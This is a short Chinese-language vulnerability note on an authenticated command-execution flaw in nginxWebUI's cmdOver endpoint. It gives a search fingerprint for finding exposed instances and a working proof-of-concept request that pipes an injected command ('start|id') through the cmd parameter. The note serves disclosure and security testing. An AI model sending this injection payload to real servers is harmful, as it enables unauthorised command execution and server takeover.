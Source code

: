 # nginxWebUI cmdOver 后台命令执行漏洞

## 漏洞描述

nginxWebUI 后台存在命令执行漏洞，攻击者登录后台后可以执行任意命令获取服务器权限

## 漏洞影响

<a-checkbox checked>nginxWebUI </a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="nginxwebui"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1656223039336-00b1d204-6cba-4178-b152-fa38c63a72c1.png)

验证请求包

```php
POST /adminPage/remote/cmdOver

remoteId=local&cmd=start|id&interval=1
```

![img](/assets/PeiQi-Wiki/img/1656223447202-743e2c21-d042-4811-b135-d67b4155791e.png)